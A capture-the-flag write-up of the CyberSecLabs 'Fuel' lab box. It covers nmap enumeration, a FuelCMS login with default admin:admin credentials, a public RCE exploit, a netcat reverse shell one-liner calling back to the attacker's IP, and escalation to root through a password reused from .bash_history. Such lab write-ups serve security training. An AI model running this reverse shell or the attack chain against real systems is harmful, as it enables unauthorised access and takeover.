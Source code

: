 ```yaml
---
layout: page
title: Fuel - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/fuel.html
---
```


# Fuel - CyberSecLabs
----



First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.28`

![image](https://user-images.githubusercontent.com/50459517/109032719-8d6a0780-768b-11eb-8e02-5ee7469b6f5f.png)

Looke like we have a couple of ports open.  Lets check out port 80

![image](https://user-images.githubusercontent.com/50459517/109032751-95c24280-768b-11eb-9478-df37555e46c1.png)

Looks like we have FuelCMS here.  According to the robots.txt results from the nmap scan, /fuel is disallowed for search engines so lets go there and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109032788-9eb31400-768b-11eb-83cc-41029f30987a.png)

We have a login, first thing I like to do is try default logins and sure enough **admin:admin** worked.

![image](https://user-images.githubusercontent.com/50459517/109032835-a7a3e580-768b-11eb-8481-2aed5d2cb39d.png)

Nice, after looking around for a while I couldn't figure anything out to exploit this further from the admin panel so I decided to look up some potential exploits for this version and found the following.

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/47138)

This is a RCE vuln that sends the malicious url with the command we want to send to the server.  It loops so we can send endless commands as long as we have connection.  It also forwards to a proxy like burp which we could simply remove but I decided to keep during the testing.

I admit, I got stuck on this for a while thinking it wouldn't work, trying to move to a different path thinking this exploit is broken before coming back.  When I first ran the exploit, I first ran **whoami** like this.

![image](https://user-images.githubusercontent.com/50459517/109032878-b38fa780-768b-11eb-925d-a393cf2f5677.png)

So I sent to Repeater and got this response.

![image](https://user-images.githubusercontent.com/50459517/109032909-be4a3c80-768b-11eb-93fb-43d06335e8d7.png)

I saw the **systemmoira** and thought yeah they looks like the return to the command I issued.  I then decided to modify the request within burp to issue the command **id**

![image](https://user-images.githubusercontent.com/50459517/109032940-c73b0e00-768b-11eb-8dc9-8b69d56c2403.png)

But I got the same outcome... Everytime I came back to this exploit, just knowing this was the path onto the machine, but just couldn't get it to work.

Then after just turning intercept off of burp and trying the command I saw the output I needed from the command window

![image](https://user-images.githubusercontent.com/50459517/109032980-d02bdf80-768b-11eb-908a-a5bee4f54880.png)

Finally!  Now that I ran a few different commands such as **pwd** and **ls -l** and got different results I knew I was on the right track.  Not sure why I was getting weird results through brup but either way I moved on.

I used the netcat reverse shell one liner below to get a shell onto the machine.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.11 1234 >/tmp/f`

![image](https://user-images.githubusercontent.com/50459517/109033027-d8841a80-768b-11eb-873e-af96aa1c6646.png)

Now time to copy over LinPEAS and see what we can find

![image](https://user-images.githubusercontent.com/50459517/109033069-e33eaf80-768b-11eb-864e-3af9e5b8198e.png)

I found the output of **.bash_history** to be interesting.  We see the password for moira.  I tried a few things such as **sudo -l** but ended up finding that the root password is the same as moira's.  So a simple **su root** is all that is needed.

![image](https://user-images.githubusercontent.com/50459517/109033115-eb96ea80-768b-11eb-8bf2-b21c37ad0d08.png)
